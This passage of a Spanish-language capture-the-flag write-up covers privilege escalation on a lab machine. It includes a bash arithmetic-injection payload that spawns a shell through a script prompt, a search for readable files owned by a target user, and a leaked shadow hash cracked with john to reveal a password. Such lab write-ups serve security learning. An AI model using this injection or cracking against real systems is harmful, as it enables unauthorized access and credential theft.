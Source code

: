 Para aprovechar esto y escalar privilegios, ejecutaremos el script como el usuario propietario

~~~ bash
sudo -u maci ./script.sh
~~~

Cuando nos pida adivinar pegaremos lo siguiente

~~~ bash
Adivina: a[$(/bin/bash >&2)]+42
a[$(/bin/bash >&2)]+42
www-data@5c050710a415:/home/maci$ 
~~~

Pero tendremos un problemita, **no conocemos la contraseña para el usuario `www-data`**, por lo que necesitamos disponer de credenciales válidas para ejecutar este recurso. **No nos será posible escalar nuestros privilegios usando este método**, así que buscaremos otras formas para migrar a otro usuario


## System Enumeration - Readable Files

Buscaremos archivos en el sistema cuyo miembro sea cada usuario en cuestión

~~~ bash
www-data@5c050710a415:/home/maci$ find / -user "darksblack" -readable 2>/dev/null              
/var/backups/darksblack
/var/backups/darksblack/.darksblack.txt
~~~

- `-user`: Usuario propietario
- `-readable`: Capacidad de lectura

Si inspeccionamos el archivo vemos lo siguiente

~~~ bash
www-data@5c050710a415:/home/maci$ cat /var/backups/darksblack/.darksblack.txt

darksblack:$y$j9T$LHiaZ3.V.uZMQWNKIHQaK.$yucUM837WonVbazf5eQWEmFnG5u0ZY5VTxH37NhaCE5:20028:0:99999:7:::
~~~


## Shadow Hash Cracking

Parece ser el `hash` del archivo `/etc/shadow` para el usuario `darksblack`, intentaremos crackear este hash usando la herramienta `john`. Copiaremos el hash y lo guardaremos en un archivo `hash.txt` (por ejemplo)

~~~ bash
john --format=crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

Using default input encoding: UTF-8
Loaded 1 password hash (crypt, generic crypt(3) [?/64])
Cost 1 (algorithm [1:descrypt 2:md5crypt 3:sunmd5 4:bcrypt 5:sha256crypt 6:sha512crypt]) is 0 for all loaded hashes
Cost 2 (algorithm specific iterations) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
salvador1        (darksblack)     
1g 0:00:02:11 DONE (2025-03-29 11:59) 0.007620g/s 119.2p/s 119.2c/s 119.2C/s elizabeth3..nissan350z
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
~~~
